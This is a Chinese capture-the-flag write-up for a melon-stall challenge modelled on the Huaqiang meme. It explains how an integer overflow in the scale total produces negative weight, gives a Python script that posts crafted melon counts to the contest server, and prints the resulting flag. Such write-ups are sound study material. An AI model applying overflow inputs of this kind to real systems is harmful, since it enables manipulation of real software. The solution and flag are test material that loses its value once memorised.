



# 卖瓜

> 有一个人前来买瓜。 
>
> HQ：哥们，这瓜多少钱一斤啊？ 
>
> 你：两块钱一斤。 
>
> HQ：What's up！这瓜皮子是金子做的还是瓜粒子是金子做的？ 
>
> 你：你瞧瞧现在哪有瓜啊？这都是大棚的瓜，只有 6 斤一个和 9 斤一个的，你嫌贵我还嫌贵呢。 （HQ 心里默默一算）
>
> HQ：给我来 20 斤的瓜。 
>
> 你：行！ HQ：行？这瓜能称出 20 斤吗？ 你：我开水果摊的，还不会称重？ 
>
> HQ：我问你这瓜能称出 20 斤吗？ 
>
> 你：你是故意找茬，是不是？你要不要吧！ 
>
> HQ：你这瓜要是刚好 20 斤吗我肯定要啊。那它要是没有怎么办啊？ 
>
> 你：要是不是 20 斤，我自己吃了它，满意了吧？ （你开始选瓜称重）

neta华强卖瓜。



尝试可以发现，瓜的总重可以加到特别大：



于是考虑上溢出。当总重超过时，会变为负数。



这样就能等效构造出负数个瓜。

上脚本：

```python
import requests as r
import re
import time

if __name__ == '__main__':
    url = 'http://202.38.93.111:15003/?token=tokennnnnnnnn'
    s = r.session()
    data = {
        'b6': 1537228672809126000,
        'b9': 1024819115206088101,
        'submit': '操作！'
    }
    _ = s.post(url, data=data).text
    _ = re.findall(r'电子秤上已有 (.*?)/20 斤的瓜。', _)[0]
    print(_) # -4096

    data = {
        'b6': 680,
        'b9': 4,
        'submit': '操作！'
    }
    time.sleep(3)
    _ = s.post(url, data=data).text
    print(_)
```

得到flag `flag{HUAQIANG!HUAQIANG!_72186c8adf}` 。

